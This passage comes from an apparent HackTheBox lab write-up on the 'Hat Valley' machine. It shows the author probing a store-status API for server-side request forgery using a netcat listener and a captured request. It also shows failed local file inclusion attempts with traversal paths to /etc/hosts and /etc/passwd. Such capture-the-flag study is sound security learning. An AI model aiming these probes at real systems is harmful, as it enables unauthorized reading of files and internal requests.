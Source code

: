 The web server also serves up the index.html here (that's an empty iframe attempting to unsuccessfully load `/etc/passwd`):

![](./assets/2023-01-30-21-43-19-image.png)

Browsing to http://store.hat-valley.htb/ from my own machine, I get a login prompt

![](./assets/2023-01-30-21-45-14-image.png)

I thought perhaps when retrieving the URL in the query param, maybe the server sets basic auth headers -- so I tried listening on netcat and going to http://hat-valley.htb/api/store-status?url=%22http://10.10.14.17%22, hoping to capture some headers:

```
$sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.185] 50746
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.27.2
Host: 10.10.14.17
Connection: close

```
Nothing :(

Next up, I tried different Local File Inclusion techniques - `"../../../../etc/hosts"` ,`"file://../../../../etc/hosts"` and a few other variations in the query param -- but just received empty 200 responses.
